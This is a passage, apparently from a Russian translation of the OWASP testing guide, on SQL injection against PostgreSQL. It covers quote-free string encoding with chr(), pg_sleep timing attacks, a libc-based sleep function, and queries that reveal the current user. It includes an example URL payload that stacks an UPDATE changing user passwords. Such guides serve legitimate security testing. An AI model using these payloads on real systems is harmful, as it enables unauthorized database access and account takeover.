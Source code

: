 - Извлечь подстроку из заданной строки
`SUBSTR(str,index,offset)`

- Представление строки без одинарных кавычек
`CHR(104)||CHR(101)||CHR(108)||CHR(108)||CHR(111)`

Начиная с версии 8.2, в PostgreSQL появилась встроенная функция `pg_sleep(n)`, чтобы перевести процесс текущей сессии в спящий режим на `n` секунд. Эта функция может помочь с проведением атак по времени (подробно обсуждается в [слепых SQL-инъекциях](https://owasp.org/www-community/attacks/Blind_SQL_Injection)).

Кроме того, можно легко создать свою `pg_sleep(n)` в предыдущих версиях с помощью libc:

- `CREATE function pg_sleep(int) RETURNS int AS '/lib/libc.so.6', 'sleep' LANGUAGE 'C' STRICT`

### Одинарная кавычка без экранирования

Чтобы предотвратить экранирование одинарных кавычек можно кодировать строки с помощью функции `chr()`.

- `chr(n)`: выдаёт символ, ASCII-значение которого соответствует числу `n`
- `ascii(n)`: выдаёт ASCII-значение, соответствующее символу `n`

Допустим, вы хотите закодировать строку 'root':

```sql
select ascii('r')
114
select ascii('o')
111
select ascii('t')
116
```

Можно закодировать 'root' как:

`chr(114)||chr(111)||chr(111)||chr(116)`

#### Пример

`http://www.example.com/store.php?id=1; UPDATE users SET PASSWORD=chr(114)||chr(111)||chr(111)||chr(116)--`

### Векторы атак

#### Текущий пользователь

Идентифицировать текущего пользователя можно с помощью следующих SQL-выражений SELECT:

```sql
SELECT user
SELECT current_user
SELECT session_user
SELECT usename FROM pg_user
SELECT getpgusername()
```

##### Пример
